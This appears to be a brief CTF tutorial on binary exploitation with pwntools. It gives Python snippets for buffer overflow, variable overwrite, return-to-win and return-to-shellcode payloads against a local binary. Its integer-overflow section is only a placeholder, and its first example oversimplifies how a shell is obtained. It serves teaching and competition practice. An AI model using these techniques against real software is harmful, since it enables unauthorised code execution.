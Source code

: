 Pwntools is a powerful CTF framework and exploit development library written in Python. It simplifies the process of writing and debugging exploits for Capture The Flag (CTF) competitions, and it's particularly useful for binary exploitation tasks. Here's an introduction to some of the key concepts and techniques in binary exploitation using pwntools.

## Buffer Overflow

Buffer overflow occurs when data exceeds the allocated buffer memory, leading to adjacent memory corruption. This can be exploited to modify the execution flow of a program.

```python
from pwn import *

p = process('./binary') # Start the vulnerable binary
payload = b'A' * 64      # Create a payload that overflows the buffer
p.sendline(payload)      # Send the payload
p.interactive()          # Get interactive shell
```

## Modify Variable's Value

By overflowing a buffer, you can overwrite adjacent variables in the memory.

```python
payload = b'A' * buffer_size + p32(new_value) # Replace buffer_size and new_value with actual values
```

## Return to Win

This involves overwriting the return address of a function to jump to a specific function (usually named 'win').

```python
win_function_addr = 0x080485cb # Replace with the actual address
payload = b'A' * buffer_size + p32(win_function_addr)
```

## Return to Shellcode

Inject shellcode into the program and modify the return address to point to this shellcode.

```python
shellcode = asm(shellcraft.sh()) # Shellcode to spawn a shell
payload = fit({buffer_size: shellcode, return_address_offset: p32(shellcode_addr)})
```

## Integer Overflow

Integer overflow occurs when an arithmetic operation results in a value larger than the maximum value the integer can hold.

```python
# This typically involves crafting inputs that cause the integer overflow.
```
